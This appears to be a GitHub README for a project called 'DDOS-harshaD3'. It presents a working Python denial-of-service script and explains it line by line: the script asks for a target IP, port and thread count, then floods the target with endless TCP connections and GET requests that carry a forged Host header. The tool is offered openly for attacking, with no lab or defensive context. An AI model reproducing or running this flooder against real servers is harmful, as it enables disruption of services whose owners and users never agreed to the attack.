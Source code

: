 # DDOS-harshaD3

![Cool Typography Boo Halloween Store Logo](https://github.com/Harshavardhanraju99/DDOS-harshaD3/assets/160013343/590fba29-1f58-45de-9ebc-4e8b603d14f0)

# DOS hack python script ...........!

# import socket
( import threading )

-->These lines import necessary modules from Python's standard library. socket is used for creating network sockets, and threading is used for creating and managing threads.

target = input("Insert target’s IP: ")
port = int(input("Insert Port: "))
num_threads = int(input("Insert number of Threads: "))

-->These lines prompt the user to input the IP address of the target server, the port number to attack, and the number of threads (connections) to create for the attack. The input() function is used to take input from the user, and int() is used to convert the input to integers where necessary.

![image](https://github.com/Harshavardhanraju99/DDOS-harshaD3/assets/160013343/36e370c6-71f7-4174-afa5-e90ac4d8edac)

fake_ip = '44.197.175.168'
attack_num = 0

-->Here, fake_ip is assigned a dummy IP address which will be used in the forged HTTP request header. attack_num is initialized to keep track of the number of requests sent during the attack.

def attack():
    global attack_num
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target, port))
            s.send(f"GET /{target} HTTP/1.1\r\n".encode('utf-8'))
            s.send(f"Host: {fake_ip}\r\n\r\n".encode('utf-8'))
            s.close()
            attack_num += 1
            print(f"Attack number: {attack_num}")
        except Exception as e:
            print(f"Error: {e}")
            
-->This function attack() is defined to simulate the DoS attack. It continuously tries to establish a connection to the target server using TCP/IP sockets (socket.socket()), sends a fake HTTP GET request with a forged IP address in the header, increments the attack_num counter, and prints the number of attacks. If an exception occurs during the attack, it prints the error message.


threads = []
for _ in range(num_threads):
    thread = threading.Thread(target=attack)
    thread.start()
    threads.append(thread)
    
-->These lines create a list threads to store the threads created for the attack. It then creates the specified number of threads (num_threads) by looping through and calling the attack() function as the target for each thread. Each thread is started (thread.start()) and added to the threads list.
for thread in threads:
    thread.join()
    
-->Finally, this loop waits for all threads to finish executing (thread.join()). It ensures that the main program waits for all threads to complete before it terminates.



Importing Libraries:

python
Copy code
import socket
import threading
